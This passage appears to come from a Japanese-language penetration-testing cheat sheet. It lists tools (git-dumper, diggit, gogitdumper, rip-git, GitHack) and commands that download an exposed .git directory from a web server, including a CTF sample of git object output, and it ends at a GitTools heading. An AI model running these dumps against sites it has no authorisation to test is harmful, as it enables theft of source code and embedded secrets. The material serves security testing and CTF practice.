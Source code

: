#### git-dumper.py

* [arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```powershell
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

#### diggit.py

* [bl4de/security-tools/diggit](https://github.com/bl4de/security-tools/)

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1
```

`-u`は.gitフォルダが存在するリモートパスです  
`t`はダミーGitリポジトリのローカルフォルダであり、blobコンテンツ（ファイル）は実際の名前で保存されます(`cd /path/to/temp/folder && git init`)  
`-o`は特定のGitオブジェクトのハッシュです

#### GoGitDumper

* [c-sto/gogitdumper](https://github.com/c-sto/gogitdumper)

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

#### rip-git

* [kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)

```powershell
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

#### GitHack

* [lijiejie/GitHack](https://github.com/lijiejie/GitHack)

```powershell
GitHack.py http://web.site/.git/
```

#### GitTools
